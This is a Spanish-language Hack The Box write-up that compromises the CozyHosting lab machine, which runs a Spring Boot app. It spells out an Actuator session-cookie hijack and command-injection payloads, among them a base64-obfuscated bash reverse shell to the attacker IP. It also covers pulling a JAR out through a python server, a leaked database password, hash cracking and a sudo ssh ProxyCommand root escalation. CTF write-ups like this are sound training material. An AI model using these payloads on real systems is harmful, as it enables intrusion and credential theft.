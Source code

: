```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/cozy-hosting/","tags":["CTF","write-up"]}
---
```


---
![CozyHosting.png](/img/user/Write-ups/Hack%20The%20Box/attachments/CozyHosting.png)
> [!INFO] Info about CozyHosting
>  CozyHosting is an easy-difficulty Linux machine that features a `Spring Boot` application. The application has the `Actuator` endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application&amp;#039;s `JAR` file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user `josh`. The user is allowed to run `ssh` as `root`, which is leveraged to fully escalate privileges.

> [!FAQ]- Hints
> No hints.

---
# Active reconnaisance
## Enum ports and services
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```shell
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```shell
sudo nmap -sCV -A -p22,80 10.10.11.230
```

**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**

Encontramos información como la versión del ssh, el puerto 80 usa nginx

---
# Vuln analisis
## Port 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```shell
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```shell
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![Pasted image 20240224150700.png|700](/img/user/Pasted%20image%2020240224150700.png)
*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.
> [!error] Error
> Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```shell
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```
Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"

---
# Exploitation
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![Pasted image 20240224151423.png|700](/img/user/Pasted%20image%2020240224151423.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![Pasted image 20240224164342.png|700](/img/user/Pasted%20image%2020240224164342.png)
Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![Pasted image 20240224174614.png|700](/img/user/Pasted%20image%2020240224174614.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![Pasted image 20240224175147.png|700](/img/user/Pasted%20image%2020240224175147.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```shell
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```shell
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![Pasted image 20240224180231.png|700](/img/user/Pasted%20image%2020240224180231.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```shell
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```shell
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![Screenshot_20240224_184639.png](/img/user/Screenshot_20240224_184639.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![Pasted image 20240226222427.png](/img/user/Pasted%20image%2020240226222427.png)

Al listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```shell
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```shell
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```shell
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```shell
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![Pasted image 20240226215038.png|400](/img/user/Pasted%20image%2020240226215038.png)

Mostramos el contenido de las columnas de la tabla `user`
![Pasted image 20240226215454.png|700](/img/user/Pasted%20image%2020240226215454.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![Pasted image 20240226221711.png|700](/img/user/Pasted%20image%2020240226221711.png)

Ingresamos mediante `ssh` usando la contraseña y el usuario `josh`
```shell
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:

> [!check]- User flag
> ![Pasted image 20240226223120.png|400](/img/user/Pasted%20image%2020240226223120.png)

---
# Privilege Escalation
Probamos si ejecutar algún comando como root:
```shell
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

> [!check]- Root flag
> ![Pasted image 20240226231132.png|400](/img/user/Pasted%20image%2020240226231132.png)

---
